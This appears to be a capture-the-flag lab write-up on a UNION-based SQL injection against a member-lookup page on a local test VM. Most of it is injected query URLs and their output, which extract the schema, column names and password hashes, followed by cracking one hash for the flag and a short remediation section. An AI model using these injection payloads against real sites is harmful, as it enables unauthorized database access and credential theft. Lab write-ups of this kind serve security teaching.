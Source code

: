 # Users Page

__http://192.168.56.101/?page=member&id=1&Submit=Submit__

## Description
This page allow to find the members of the service.
## Form Outputs
The [page](#http://192.168.56.101/?page=member&id=42%20union%20select%20database(),%20schema_name%20from%20information_schema.schemata&Submit=Submit) return the list of members

```
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata 
First name: Member_Sql_Injection
Surname : Member_survey
```

The [page](#http://192.168.56.101/?page=member&id=42%20union%20select%20table_name,%20create_time%20from%20information_schema.tables%20where%20table_schema=database()&Submit=Submit) return the list of the tables

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database() 
First name: users
Surname : 2021-06-29 20:14:31
```

Let's check the column names [here](#http://192.168.56.101/?page=member&id=42%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit)

```
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database() 
First name: countersign
Surname : varchar(255)
```
We've got the following columns ```user_id first_name last_name town country planet Commentaire countersign```

Then we get the personal data </br>
[select Commentaire, countersign from users](#http://192.168.56.101/?page=member&id=42%20union%20select%20Commentaire,%20countersign%20from%20users&Submit=Submit)
```
ID: 42 union select Commentaire, countersign from users 
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users 
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users 
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Flag
The flag we've got is [FortyTwo](#https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28)
After converting FortyTwo to [sha256](#https://crypt-online.ru/crypts/sha256/) as in the instruction we get a flag.
```echo -n "FortyTwo" | shasum -a 256```

## Safety
The IT safety of the web in this case is compromised due to several security vulnerabilities, mainly SQL injection. 
The risk that the web is bringing includes unauthorized access to sensitive information such as member data and user credentials. The SQL injections allow an attacker to execute arbitrary queries on the database, which enables them to retrieve the list of members, tables, column names, and even personal data like comments and passwords.
These vulnerabilities can lead to potential data breaches, privacy violations, and unauthorized access to user accounts. It is crucial for the website administrators to address these security issues by implementing proper input validation and parameterized queries to prevent SQL injection attacks.
Additionally, storing passwords in plaintext or using weak encryption algorithms like SHA256/MD5 can also put user accounts at risk. It is essential to use strong and properly implemented hashing algorithms like bcrypt to securely store passwords.
Overall, the web's security is at high risk due to the presence of SQL injection vulnerabilities and weak password storage practices, which can lead to unauthorized access and potential harm to users' privacy and security.